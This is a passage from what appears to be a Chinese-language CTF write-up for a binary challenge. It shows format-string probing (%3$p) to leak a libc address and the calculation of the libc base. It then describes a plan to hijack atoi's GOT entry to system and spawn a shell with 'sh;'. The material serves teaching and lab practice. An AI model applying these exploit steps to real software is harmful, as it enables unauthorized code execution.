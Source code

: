 	- 再依次试格式化字符串泄漏，直到得到一个符合范围的地址，因此可以确定格式化字符串参数位置：
	```bash
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%1$p
	0x7fffc8c378f0
	UUnsupported choice: 93503319453989
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%2$p
	0x6
	UUnsupported choice: 93503319454245
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%3$p
	0x7f3c8a5147e2
	UUnsupported choice: 93503319454501
	```

	- 可喜可贺的是，第三个地址就符合要求，因此泄漏 libc 的 payload 确定为 `%3$p`，计算出远程 libc 地址如下：

	```bash
	isadbg> subscribe
	Select your subscription plan:
	        1. Yearly
	        2. Monthly
	%3$p.
	0x7fea62b147e2.
	Unsupported choice: 11194566193957
	```

	```python
	[ins] In [7]: libc_base = 0x7fea62b147e2 - (0x7f3c8a5147e2 - 0x7f3c8a400000)
	
	[ins] In [8]: hex(libc_base)
	Out[8]: '0x7fea62a00000'
	```

5. 最后一步就是劫持 atoi 的 got 表到 libc 中的 system 函数并且执行 `system("sh;)`，此处分号是因为原 atoi 的参数是用 read 读入的，并且没有 `\x00` 截断，为了防止栈上脏数据影响利用故用分号隔开。

	- 先计算出 system 函数在 libc 中的地址：
	```python
	[ins] In [8]: hex(libc_base)
	Out[8]: '0x7fea62a00000'
	
	[ins] In [9]: libc = ELF("./../src/libc-2.35.so")
	[*] '/home/eastxuelian/workspace/TA/info-sec/binary-challenges/hackergame-challenge-docker/limiteddbg/src/libc-2.35.so'
	    Arch:     amd64-64-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      PIE enabled
	